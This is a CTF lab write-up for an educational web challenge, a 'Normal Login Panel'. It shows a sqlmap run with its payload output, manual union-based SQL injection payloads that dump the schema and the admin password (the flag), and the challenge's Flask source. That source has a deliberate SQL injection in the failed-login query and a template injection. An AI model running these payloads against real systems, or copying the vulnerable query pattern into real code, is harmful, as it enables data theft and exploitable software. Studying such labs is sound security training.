 ```yaml
---
title: Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
###### tags: `CTF` `Web` `eductf`
Challenge: https://login.ctf.zoolab.org/

## Background

## Source Code

### Analysis

## Exploit - SQLi
### Easy way - `SQLmap`
```bash!
$ ./sqlmap.py "https://login.ctf.zoolab.org/" --form -dbs sqlite --dump --risk=3 --level=5
...
---
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username='||(SELECT CHAR(116,86,90,89) WHERE 7681=7681 AND 7766=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&password=
---
```
### Hard way - try&error
1. Check if it has `sqli` problem
Payload: `union'`
![](https://i.imgur.com/xIfsghR.png)

2. Try union based
Payload: `admin' union select 1 --` **→ WRONG**
Payload: `admin' union select 1,2 --` **→ WRONG**
Payload: `admin' union select 1,2,3 --` **→ WRONG**
Payload: `admin' union select 1,2,3,4 --`
![](https://i.imgur.com/3G8F2yP.png)
Obviously, it shows some info when select 4 values

3. Must know the metadata
According to the author, it used `sqlite` as its `DBMS`. As [kaibro cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
    > 爆表名
    SELECT name FROM sqlite_master WHERE type='table'

    Then we can add this in our request
    Payload: `admin' union select 1,2,3,sql FROM sqlite_master WHERE type='table' --`
    ![](https://i.imgur.com/3OBjg43.png)

    Based on the info we leak, there's a table named `users` with <font color="FF0000">`id`, `username`, `password`,and `count`</font> 4 columns

4. Leak password
Payload: `admin' union select 1,2,3,password FROM users --`
![](https://i.imgur.com/p4d4Ep5.png)


## Result
Then we got source code!!!
:::spoiler code
```python=
from flask import Flask, request, render_template, render_template_string, send_file
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()
app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///app.db"
db.init_app(app)

with app.app_context():
  db.session.execute("""
    CREATE TABLE IF NOT EXISTS users(
      id Integer PRIMARY KEY,
      username String NOT NULL UNIQUE,
      password String,
      count Integer DEFAULT 0
    );
  """)
  db.session.execute("INSERT OR REPLACE INTO users (username, password) VALUES ('admin', 'FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}')")
  db.session.commit()

def login(greet):
  if not greet:
    return send_file('app.py', mimetype='text/plain')
  else:
    return render_template_string(f"Hello {greet}")

@app.route('/', methods=["GET", "POST"])
def index():
  if request.method == "GET":
    return render_template('index.html')
  else:
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    error = ''
    user = db.session.execute("SELECT username, password FROM users where username=:username", {"username":username}).first()

    if user and user[1] == password:
      return login(request.form.get('greet', ''))
    elif not user:
      error += "User doesn't exist! "

    # New feature! count login failed event
    db.session.execute("UPDATE users SET count = count + 1 WHERE username=:username", {"username": username})
    db.session.commit()
    count = db.session.execute(f"SELECT * FROM users WHERE username='{username}'").first() or [0, 0, 0, 0]
    error += f'Login faild count: {count[3]}'

    return render_template('index.html', error=error)


if __name__ == "__main__":
  app.run(host="0.0.0.0")
```
:::
